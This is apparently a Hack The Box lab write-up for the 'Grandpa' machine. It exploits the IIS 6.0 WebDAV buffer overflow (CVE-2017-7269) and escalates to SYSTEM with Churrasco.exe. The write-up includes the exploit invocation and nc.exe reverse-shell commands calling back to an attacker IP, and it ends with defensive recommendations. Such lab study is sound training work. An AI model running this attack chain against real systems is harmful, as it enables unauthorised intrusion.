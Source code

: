 # HTB - Grandpa

**IP Address:** `10.10.10.14`  
**OS:** Windows Server 2003  
**Difficulty:** Easy  
**Tags:** #IIS6, #WebDAV, #BufferOverflow, #SeImpersonatePrivilege, #Churrasco, #Windows-Exploitation

---
## Synopsis

Grandpa is an easy Windows machine vulnerable to a classic **IIS 6.0 WebDAV buffer overflow (CVE-2017-7269)**.  
Exploitation leads to an initial shell as a low-privileged user. Privilege escalation is achieved by abusing the **SeImpersonatePrivilege** via **Churrasco.exe** on Windows Server 2003 to obtain `NT AUTHORITY\SYSTEM`.

---
## Skills Required

- Basic Windows service enumeration  
- Knowledge of IIS and WebDAV vulnerabilities  
- Understanding of Windows privilege escalation techniques  

## Skills Learned

- Exploiting **IIS 6.0 PROPFIND buffer overflow**  
- Abusing **SeImpersonatePrivilege** on legacy Windows systems  
- Using **Churrasco.exe** for SYSTEM escalation  

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

We begin by checking if the target is alive with ICMP:

```bash
ping -c 1 10.10.10.14
```

![](screenshots/ping.png)

The machine responds, confirming it is alive.

---
### 1.2 Port Scanning

We scan all 65,535 TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.14 -oG allPorts
```

![](screenshots/allports.png)

Extract the open ports:

```bash
extractPorts allPorts
```

![](screenshots/extractports.png)

Only port **80/tcp** is open.

---
### 1.3 Targeted Scan

We run a deeper scan with version detection and default NSE scripts:

```bash
nmap -p80 -sC -sV 10.10.10.14 -oN targeted
```

```bash
cat targeted -l java
```

![](screenshots/targeted.png)

**Findings:**

| Port | Service | Version/Description |
|------|---------|---------------------|
| 80   | HTTP    | Microsoft IIS 6.0 with WebDAV enabled |

The service runs **IIS 6.0 WebDAV**, an outdated version known to be vulnerable.

---
## 2. Exploitation – IIS 6.0 WebDAV Buffer Overflow

During the targeted scan we identify **WebDAV**, a set of HTTP extensions that allows collaborative editing and file management. IIS 6.0 is known to be vulnerable to **CVE-2017-7269**.

Exploit reference: [IIS6 Exploit (CVE-2017-7269)](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)

We clone the exploit:

```bash
git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
```

![](screenshots/exploit.png)

This is a classic **buffer overflow** triggered via the **PROPFIND** WebDAV request:

![](screenshots/exploit_propfind.png)

The exploit script requires:

- `targetip`  
- `targetport`  
- `reverseip`  
- `reverseport`

We run the exploit and set up a listener with `nc`:

```bash
python2 iis6\ reverse\ shell 10.10.10.14 80 10.10.14.2 443
```

![](screenshots/reverse_shell_iis6.png)

✅ Reverse shell obtained.

---
## 3. Post-Exploitation Enumeration

We check our privileges and system structure:

![](screenshots/whoami.png)

On Windows Server 2003, user profiles are located in **`Documents and Settings`** instead of `Users`:

![](screenshots/dir_users.png)

Checking privileges:

![](screenshots/priv.png)

We have **SeImpersonatePrivilege** enabled, which can be exploited for privilege escalation.

---
## 4. Privilege Escalation – Churrasco.exe

Normally, **JuicyPotato** would be used, but it does not support Windows Server 2003 due to missing CLSIDs. Instead, we use **Churrasco.exe**, a community version adapted for Windows Server 2003.

Exploit reference: [Privilege Escalation – Churrasco.exe](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)

We upload `churrasco.exe` via an SMB share:

```bash
impacket-smbserver smbFolder $(pwd)
```

On the victim:

```powershell
dir \\10.10.14.2\smbFolder\
copy \\10.10.14.2\smbFolder\churrasco.exe churrasco.exe
```

![](screenshots/upload_churrasco.png)

Move to `Temp` directory if copying fails.  

Running without arguments fails, so we must specify a command:

![](screenshots/churrasco_execute.png)

To get a more stable shell, we upload `nc.exe` via SMB and then execute it with Churrasco:

```bash
.\churrasco.exe "\\10.10.14.2\smbFolder\nc.exe -e cmd 10.10.14.2 4444"
```

If it fails, try renaming the share or copying locally:

```bash
copy "\\10.10.14.2\smb\nc.exe" nc.exe
.\churrasco.exe "nc.exe -e cmd 10.10.14.2 4444"
```

![](screenshots/whoami_churrasco.png)

✅ Privilege escalation successful – we are `NT AUTHORITY\SYSTEM`.

---
## 5. Flags

With SYSTEM access, we can retrieve both flags:

![](screenshots/root_user_flag.png)

✅ **User flag obtained**  
✅ **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Port Scanning** → Detected IIS 6.0 on port 80.  
2. **WebDAV Buffer Overflow (CVE-2017-7269)** → Remote code execution with reverse shell.  
3. **Privilege Escalation** → Abused `SeImpersonatePrivilege` using **Churrasco.exe**.  
4. **Post-Exploitation** → Retrieved user and root flags as SYSTEM.

---
## Defensive Recommendations

- **Upgrade IIS 6.0**: It is end-of-life and should be replaced with a supported version.  
- **Disable WebDAV** if not required.  
- **Restrict Privileges**: Remove `SeImpersonatePrivilege` from unnecessary accounts.  
- **Monitor for Exploits**: Log and alert on abnormal WebDAV requests such as `PROPFIND`.  

